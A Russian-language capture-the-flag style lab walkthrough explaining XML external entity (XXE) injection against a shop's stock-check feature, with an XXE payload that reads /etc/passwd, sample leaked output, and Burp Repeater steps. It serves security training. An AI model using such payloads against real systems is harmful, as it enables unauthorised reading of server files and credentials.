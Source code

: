 Использование XXE для извлечения файлов
Чтобы выполнить атаку с использованием XXE-инъекции, которая извлекает произвольный файл из файловой системы сервера, вам необходимо изменить отправленный XML двумя способами:

Введите (или отредактируйте) DOCTYPEэлемент, определяющий внешнюю сущность, содержащую путь к файлу.
Отредактируйте значение данных в XML, возвращаемом в ответе приложения, чтобы использовать определенную внешнюю сущность.
Например, предположим, что приложение для совершения покупок проверяет уровень запасов товара, отправляя на сервер следующий XML-код:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
Приложение не обеспечивает особой защиты от атак XXE, поэтому вы можете воспользоваться уязвимостью XXE для извлечения /etc/passwdфайла, отправив следующую полезную нагрузку XXE:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
Эта полезная нагрузка XXE определяет внешнюю сущность &xxe;, значением которой является содержимое файла /etc/passwd, и использует сущность внутри productIdзначения. Это приводит к тому, что ответ приложения включает содержимое файла:

Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
Примечание
При реальных уязвимостях XXE в отправленном XML часто будет большое количество значений данных, любое из которых может быть использовано в ответе приложения. Для систематического тестирования на уязвимости XXE вам, как правило, нужно будет протестировать каждый узел данных в XML по отдельности, используя определенную вами сущность и проверяя, появляется ли она в ответе.

В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML и возвращает любые непредвиденные значения в ответе.

Для решения лабораторной работы внедрите внешнюю сущность XML для извлечения содержимого файла /etc/passwd.

1. Нас встречает список товаров:

![image](https://github.com/user-attachments/assets/7732ce0b-262f-4416-aebe-a7af11b5d714)

---

2. Переходим на любой из них, включив прокси бурпа, нажимаем на кнопку "Проверить наличие на складе":

![image](https://github.com/user-attachments/assets/be6726cc-64f5-4093-b301-7923e3d88d9c)

---

3. В HTTP History полученный POST запрос перекидываем в Repeater, видим, что проверка наличия производится с помощью XML, это и будет нашим вектором атаки:

![image](https://github.com/user-attachments/assets/028c10b5-e477-45f5-8101-8a056ed72651)

---

4. Вставляем следующее определение внешней сущности между декларацией XML и stockCheck элементом: <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>, и в productId значение меняем на &xxe;, должно получиться вот так: 

![image](https://github.com/user-attachments/assets/22cbd669-befa-4e8b-9250-da047534f851)

---

5. Получаем вывод /etc/passwd: 

![image](https://github.com/user-attachments/assets/7c506f3a-d652-4bad-820c-2b61fa561bf5)
---
